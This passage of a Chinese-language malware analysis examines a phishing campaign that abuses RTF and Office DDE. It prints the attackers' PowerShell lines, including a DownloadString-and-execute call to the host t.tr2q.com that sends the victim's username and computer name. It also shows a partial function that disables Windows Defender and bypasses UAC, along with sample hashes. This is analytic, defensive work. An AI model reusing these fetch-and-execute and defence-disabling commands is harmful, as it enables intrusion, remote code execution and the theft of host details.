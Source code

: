 

这是由于在RTF文档中还利用OfficeDDE功能进行执行,以提高攻击成功几率：

```powershell
$dde_cmd="powershell [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:%tmp%\$filename').Exec(0)&"
```



以下是解析后的在`.sct`文件中插入的Powershell命令：

```powershell
IEx(New-Object Net.WebClient).DownLoadString(\'http://t.tr2q.com/7p.php?0.7*mail_doc*%username%*%computername%*\'+[Environment]::OSVersion.version.Major);
bpu (\'http://t.tr2q.com/mail.jsp?doc_0.7\');
del %tmp%\\RANDOM.sct
```

执行后`.sct`还会将自己从临时目录中删除。



#### 7p.php  (BypassUAC)

```
http://t.tr2q.com/7p.php?0.7*mail_doc*<SYS ENV>
(MD5 = f8dc697b1812f61cf56bb656e90eabce)
```

去除多层混淆后，发现其定义:

函数bpu  (BypassUAC的意思，命名规范真好，不输普通程序猿)

```powershell
function bpu($payload){
	# windows版本
	$ver=[Environment]::OSVersion.Version.Major
	# # 关闭WindowsDefender 实时防护
	# cmd /c echo Set-MpPreference -DisableRealtimeMonitoring 1;
	# Add-MpPreference -ExclusionPath c:\;
	# Add-MpPreference -ExclusionProcess c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe|powershell -w hidden
	}
	# 如果是win10
	if ($ver -eq 10) {
	# ……
	}
	# UAC绕过获得管理员权限
	# ……
}
```

用以关闭WindowsDefender实时防护，和以管理员权限执行传入的远程脚本



#### mail.jsp (create schtasks)

```
http://t.tr2q.com/mail.jsp?doc_0.7\
(MD5 = 51f6eba99e2b33e5458d78e41a130fe2)
```

